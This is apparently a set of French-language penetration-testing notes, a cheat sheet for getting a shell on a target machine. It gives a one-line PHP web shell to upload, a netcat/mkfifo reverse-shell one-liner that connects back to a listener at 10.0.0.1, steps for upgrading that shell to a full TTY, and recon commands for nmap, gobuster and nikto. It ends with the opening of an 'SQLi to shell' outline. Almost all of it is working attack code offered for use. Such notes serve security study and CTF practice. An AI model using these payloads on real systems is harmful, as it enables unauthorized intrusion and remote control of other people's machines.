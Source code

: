 ## Upload de fichier

Exécution de commande basique :

```php
<?php
    system($_REQUEST['cmd']);
?>
```

## Exécuter des commandes simplement

Passer en POST :
"Change request method" dans le Repeter.

encoder les commandes avec `Ctrl + U`.

## Reverse shell:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

netcat en écoute
```bash
nc -lvnp 1234
```


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Améliorer son shell

Minimal : utiliser rlwrap
```bash
rlwrap nc -lvnp 1234
```

### Mieux si python

Dans le shell
```
python -c "import pty;pty.spawn('/bin/bash')"
```

`Ctrl + Z` pour passer en arrière plan

```bash
stty raw -echo

fg
export TERM=xterm
```

## Énumération

### Nmap

Initial
```bash
nmap -sV -sC ip -oN nmap/inital.nmap
```

Full
```bash
nmap -sV -sC -p- ip -oA nmap/full.nmap
``` 

### Gobuster

Wordlists de qualité :
[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

```bash
gobuster dir -u http://url -w /usr/share/wordlist/dirbuster/directory-list-2.3-med.txt -o gb_med.txt
```

### Nikto

```bash
nikto -h http://url
```

## From SQLi to Shell

Objectif : obtenir un shell sur la machine.

1. Faire un scan de port
2. Lancer gobuster, et nikto (cf cours reconnaissance)
3. Rechercher des failles à exploiter